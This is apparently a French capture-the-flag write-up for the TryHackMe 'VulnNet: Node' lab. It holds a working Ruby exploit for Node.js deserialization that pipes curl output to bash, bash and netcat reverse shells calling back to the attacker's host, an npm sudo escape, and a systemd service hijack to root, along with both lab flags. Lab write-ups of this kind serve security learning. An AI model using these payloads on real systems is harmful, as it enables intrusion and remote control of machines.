



# VulnNet: Node #

## Task 1 VulnNet: Node ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.38.93 vulnet.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A vulnet.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 22:49 CEST
Nmap scan report for vulnet.thm (10.10.38.93)
Host is up (0.034s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/11%OT=8080%CT=1%CU=33072%PV=Y%DS=2%DC=T%G=Y%TM=61143
OS:830%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506S
OS:T11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)E
OS:CN(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   31.91 ms 10.9.0.1
2   40.17 ms vulnet.thm (10.10.38.93)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.01 seconds

```

D'après le scan nmap on a service  http sur le port 8080.   



Sur la page principale on a un lien pour se connecter.    



On est sur la session de connexion.   



On remarque un cookie qui est encodé en base64.   

La valeur du cookie est : eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

On a affaire a du node js, de plus le scan nous confirme que c'est du node.js.   

On recherche nodejs unserialise reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.rb 
require 'ctf_party' # gem install ctf-party
require 'json'
require 'httpclient' # gem install httpclient

# change values here
URL = 'http://10.10.38.93:8080/'
LHOST = '10.9.228.66'
LPORT = 1234
FILE = 'noraj.sh'

payload = """
require('child_process').exec('curl #{LHOST}:#{LPORT}/#{FILE} | bash', function(error, stdout, stderr)
{ console.log(stdout) })
""".gsub("\n", '')

puts payload

code = "_$$ND_FUNC$$_#{payload}"

cookie = { username: code, isAdmin: true, encoding: 'utf-8' }

headers = {
  'Cookie' => "session=#{cookie.to_json.to_b64.urlencode}"
}

clnt = HTTPClient.new
clnt.cookie_manager = nil
clnt.get(URI(URL), nil, headers)
```

On configure l'ip et le port.   

```bash
 echo "bash -i >& /dev/tcp/10.9.228.66/4444 0>&1" > noraj.sh
```

On configure un reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 1234
```

On met un serveur http pour transferer le reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat -lvv  4444
```

On écoute le port 4444 pour se connecter au reverse shell. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ruby exploit.rb 
```

On lance l'exploit.   

**What is the user flag? (user.txt)** 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat -lvv  4444
INFO: Listening on :::4444 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:4444 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.202.168:55662 (family 2/IPv4, TCP)
bash: cannot set terminal process group (586): Inappropriate ioctl for device
bash: no job control in this shell
www@vulnnet-node:~/VulnNet-Node$ id  
id
uid=1001(www) gid=1001(www) groups=1001(www)
www@vulnnet-node:~/VulnNet-Node$ sudo -l
sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm


```

On voit que l'on est l'utilisateur www.   
Quand on regarde la configuration de sudo on peut que en tant que serv-manage on peut exécuter \/usr\/bin\/npm sans mot de passe.    

D'après [gtfobins](https://gtfobins.github.io/gtfobins/npm/) on peut d'avoir plus de privilège.   

```bash
www@vulnnet-node:~/VulnNet-Node$ TF=$(mktemp -d)
TF=$(mktemp -d)
www@vulnnet-node:~/VulnNet-Node$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
 $TF/package.json {"preinstall": "/bin/sh"}}' > 

www@vulnnet-node:~/VulnNet-Node$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
e-perm iserv-manage /usr/bin/npm -C $TF --unsafe
npm ERR! code EACCES
npm ERR! syscall open
npm ERR! path /tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json
npm ERR! errno -13
npm ERR! Error: EACCES: permission denied, open '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'
npm ERR!  [OperationalError: EACCES: permission denied, open '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'] {
npm ERR!   cause: [Error: EACCES: permission denied, open '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'] {
npm ERR!     errno: -13,
npm ERR!     code: 'EACCES',
npm ERR!     syscall: 'open',
npm ERR!     path: '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'
npm ERR!   },
npm ERR!   isOperational: true,
npm ERR!   errno: -13,
npm ERR!   code: 'EACCES',
npm ERR!   syscall: 'open',
npm ERR!   path: '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'
npm ERR! }
npm ERR! 
npm ERR! The operation was rejected by your operating system.
npm ERR! It is likely you do not have the permissions to access this file as the current user
npm ERR! 
npm ERR! If you believe this might be a permissions issue, please double-check the
npm ERR! permissions of the file and its containing directories, or try running
npm ERR! the command again as root/Administrator.

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/serv-manage/.npm/_logs/2021-08-11T23_09_44_690Z-debug.log

```

Cela ne fonctionne pas j'ai pas les droits d'écriture sur le répertoire tmp.   

```bash
www@vulnnet-node:~/VulnNet-Node$ mkdir /dev/shm/noraj
mkdir /dev/shm/noraj
www@vulnnet-node:~/VulnNet-Node$ TF=/dev/shm/noraj
TF=/dev/shm/noraj
www@vulnnet-node:~/VulnNet-Node$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
 $TF/package.json {"preinstall": "/bin/sh"}}' > 
www@vulnnet-node:~/VulnNet-Node$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
e-perm iserv-manage /usr/bin/npm -C $TF --unsafe

> @ preinstall /dev/shm/noraj
> /bin/sh
```

On change de répertoire on va dans \/dev/shm\/noraj

```bash
id
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
cat /home/serv-manage/user.txt
THM{064640a2f880ce9ed7a54886f1bde821}

```

On a un shell avec les droits serv-manage.   
On peut lire le fichier user.txt.  

Le réponse est : THM{064640a2f880ce9ed7a54886f1bde821}    

**What is the root flag? (root.txt)**

```bash
sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

On peut démarrer ou stopper daemon vumnnet-auto.timer.   

```bash
systemctl status vulnnet-auto.timer
● vulnnet-auto.timer - Run VulnNet utilities every 30 min
   Loaded: loaded (/etc/systemd/system/vulnnet-auto.timer; disabled; vendor preset: enabled)
   Active: inactive (dead)
  Trigger: n/a
```

Avec la commande systemctl status on peut voir le chemin vulnnet-auto.timer.    

```bash
ls -lh /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 167 Jan 24  2021 /etc/systemd/system/vulnnet-auto.timer
```

Le groupe serv-manage peut lire et écrire dans le fichier.   

```bash
cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

On regardant à l'interieur du fichier on trouve un non d'autre fichier vulnnet-job.service.   

```bash
ls -al /etc/systemd/system/vulnnet-job.service
-rw-rw-r-- 1 root serv-manage 197 Jan 24  2021 /etc/systemd/system/vulnnet-job.service

cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target

```

On a les droits en écriture sur le fichier.  
Le fichier peut exécuter des commandes avec ExecStart.  

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
serv-manage@vulnnet-node:/dev/shm/noraj$ 

serv-manage@vulnnet-node:/dev/shm/noraj$ cp /etc/systemd/system/vulnnet-job.service /tmp/
serv-manage@vulnnet-node:/dev/shm/noraj$ sed -i 's/\/bin\/df/\/tmp\/shell/g' /tmp/vulnnet-job.service
serv-manage@vulnnet-node:/dev/shm/noraj$ cp /tmp/vulnnet-job.service /etc/systemd/system/vulnnet-job.service


```

On copie le fichier dans tmp car sed à besoins d'un repertoire ou il peut écrire.  
On modifie le fichier pour qu'il puisse lire le fichier \/root\/root.txt et qu'il écrit le contenu dans un endroit où on peut le lire.  
On recopie le fichier modifier on bon endroit.   

```bash
serv-manage@vulnnet-node:/tmp$ cat > shell << EOF
cat > shell << EOF
> #!/bin/bash
#!/bin/bash
> rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.9.228.66 1337 >/tmp/g
> EOF
EOF

serv-manage@vulnnet-node:/tmp$ chmod +x shell
chmod +x shell
```

Création du shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
listening on [any] 1337 ...
```

On écoute sur le port 1337, pour obtenire le reverse shell.   

```bash
serv-manage@vulnnet-node:/dev/shm/noraj$ sudo /bin/systemctl stop vulnnet-auto.timer
imer /bin/systemctl stop vulnnet-auto.ti
serv-manage@vulnnet-node:/dev/shm/noraj$ sudo /bin/systemctl daemon-reload
sudo /bin/systemctl daemon-reload
serv-manage@vulnnet-node:/dev/shm/noraj$ sudo /bin/systemctl start vulnnet-auto.timer
timer/bin/systemctl start vulnnet-auto.t
```

On recharge notre demon, qui exécute notre shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.202.168] 34848
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt 
THM{abea728f211b105a608a720a37adabf9}
```

On obtient un shell avec les droits root.    
On peut lire le fichier root.txt.  

La réponse est : THM{abea728f211b105a608a720a37adabf9}   